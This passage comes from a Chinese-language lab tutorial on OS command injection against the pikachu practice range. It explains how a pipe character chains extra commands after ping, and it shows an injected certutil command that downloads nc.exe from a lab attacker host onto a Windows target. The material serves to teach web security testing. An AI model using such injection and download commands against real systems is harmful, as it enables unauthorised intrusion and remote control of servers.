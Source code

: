 既然可以通过管道符可以实现执行whoami命令，那么同样就可以执行其他命令，攻击者不用在意ping命令本身是否执行成功，重点在于借助管道符执行的特殊命令是否成功。如果一个Web站点提供了输入窗口，那么是否可以对这个窗口进行测试，检测其是否支持文件上传、运行程序等特殊命令

*以下实验需要用到pikachu靶场，但实验的最终目的不是为了测试靶场，而是理解数据回显的原理*，假设现在需要对某个为止Web站点进行测试，测试思路参考：

1. 判断目标系统

   ![测试目标系统类型](../image/测试目标系统类型.png)

   通过回显的系统名称与账号名称即可初步判断目标主机是Windows，Windows系统不自带nc工具，因此接下来需要先考虑如何将工具上传到目标主机

2. 上传文件

   在输入窗口尝试输入Windows系统的文件下载命令，并将nc程序下载到C盘根目录下，在测试环境下可以直接进入目标Windows系统下验证文件下载是否成功

   ```cmd
   ping | certutil.exe -urlcache -split -f http://192.168.104.165/nc.exe c:\\nc.exe
   ```
   
